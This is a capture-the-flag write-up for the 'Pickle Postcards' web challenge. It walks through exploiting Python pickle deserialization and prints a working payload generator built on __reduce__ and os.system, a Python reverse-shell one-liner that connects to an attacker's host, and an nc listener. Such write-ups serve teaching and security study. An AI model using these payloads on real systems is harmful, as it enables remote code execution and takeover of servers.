 ```yaml
---
title: "Pickle Postcards (web easy)"
date: 2023-03-17T17:03:49-08:00
tags: ["pickle", "reverse shell", "python", "web"]
---
```


### Basic python pickle challenge
#### S2G web Pickle Postcards

Exploiting pythons \__reduce__ to create a payload that when loaded on the server gives us a reverse shell.
 <!--more-->

This was one of the more interesting challenges of the S2G web CTF 2023, mainly because I hadn't solved a pickle challenge during a ctf before, but this time my teammate managed to do it. This writeup will explain the practical ways of approaching this fairly straight forward challenge. If you are looking for more detailed explanations as well I would recommend finding a different writeup, or using this alongside the python documentation and other material. 

{{%attachments title="Related files" /%}}

We were given the source code of the application (above), with the interesting file being app.py. Opening up the website it looks like this:

![website](./images/website.png "website")

It is clearly a pickle challenge, so lets look at what the code does. The most interresting snippets in app.py are:

```py
@app.route('/', methods=['GET', 'POST'])
def index():
  data = str(request.args.get("data", ""))

  # Load/Deserialize postcard data
  if request.method == "GET" and data:
    
    deserialized_postcard = deserialize(data)
```

and

```py
def deserialize(serialized):
postcard = pickle.loads(base64.b64decode(serialized))
return postcard
```

A pickle challenge really can't get much more straight forward. It is more common to use pickle.loads for interpreting cookies, but this will simply take whatever data we send to the "/" endpoint and execute pickle.loads on it after base64 decoding it.

Pickle challenges relies on the \__reduce__ method on a python object. The following code is a good template for creating our own pickle payload:

```py
import pickle
import os
from base64 import b64encode, b64decode

COMMAND = '''
<insert command here>
'''

class Evil(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
print(evil_token)

#server runs pickle.loads(base64,b64decode(evil_token)) 
```

Sending the result of this script to the server will give us RCE of whatever we insert as the command. We could theoretically have it read flag.txt and return an object that could be printed on the website, but we can also just create a reverse shell if we have a public IP available. A great tool for creating reverse shells is https://www.revshells.com/. It is safest to use a python reverse shell as we know for sure that the webserver is running python.

The reverse shell generator gives us the command `export RHOST="<insert public ip here>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`. Placing this in the COMMAND field above and running the pickle payload generator gives the following output:

![payload](./images/payload.png "payload")

Sending this to the server should make it run the provided command, so all we have to do now is listen on the correct port on the machine with the public IP and send the payload to the server through the "Enter saved postcard data" field on the website.
We listen with `nc -lvp <port>` and get a shell on the webserver. Then all that's left is reading the flag.

![getting shell](./images/flag.png "getting shell")

